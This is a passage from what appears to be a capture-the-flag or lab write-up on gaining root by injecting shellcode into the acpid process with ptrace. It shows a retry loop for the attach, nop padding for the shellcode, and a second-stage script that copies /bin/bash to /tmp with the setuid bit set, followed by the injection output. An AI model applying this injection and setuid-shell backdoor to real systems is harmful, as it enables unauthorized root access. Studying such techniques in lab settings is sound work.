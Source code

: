 The script failed a lot due to a bug in the code, where sometimes `ptrace(PTRACE_ATTACH)` or `ptrace(PTRACE_GETREGS)` would fail so I made a little modification to make it repeatedly try to attach to the target process and get its registers till it works, to make the script more reliable

```c
# repeatedly try to Attach to the target process
while libc.ptrace(PTRACE_ATTACH, pid, None, None) == -1:
    pass
registers=user_regs_struct()

# try to retrieve the value stored in registers in a loop
while libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers)) == -1 or registers.rip == 0:
    print("Instruction Pointer: " + hex(registers.rip))
    print("detach : ", hex(libc.ptrace(PTRACE_DETACH, pid, None, None)))
    print("attach : ", hex(libc.ptrace(PTRACE_ATTACH, pid, None, None)))
```

It also needed the shellcode to be 4-bytes aligned, and mine was 39 bytes, so I had to prepend one `\x90` (`nop` opcode) to the shellcode

```bash
[ arch@jeff | ~/work/asm ]
$ ./extract shellcode | grep '\\\\' -o | wc -l
39 # one byte needed to be 4-bytes-aligned
```

Now the last step is to create the second stage, I wrote a script to copy `/bin/bash` to `/tmp/b` and give it a `setuid` bit so I can spawn a shell as root, then made the script executable

```bash
saket@ubuntu:~$ cat /tmp/s.sh
#!/bin/bash
cp /bin/bash /tmp/b
chmod +s /tmp/b
saket@ubuntu:~$ chmod +x /tmp/s.sh
```

Then I injected into `acpid`

```bash
saket@ubuntu:~$ /usr/bin/python2.7 inject.py 610
('libc', <CDLL 'libc.so.6', handle 7f26798da000 at 7f2679403690>)
Instruction Pointer: 0x0L
('detach : ', '0xffffffffffffffffL')
('attach : ', '0xffffffffffffffffL')
Instruction Pointer: 0x0L
('detach : ', '0x0L')
('attach : ', '0x0L')
Instruction Pointer: 0x7f94063080daL
Injecting Shellcode at: 0x7f94063080daL
Shellcode Injected!!
Final Instruction Pointer: 0x7f94063080dcL
saket@ubuntu:~$
```

And finally got my root shell
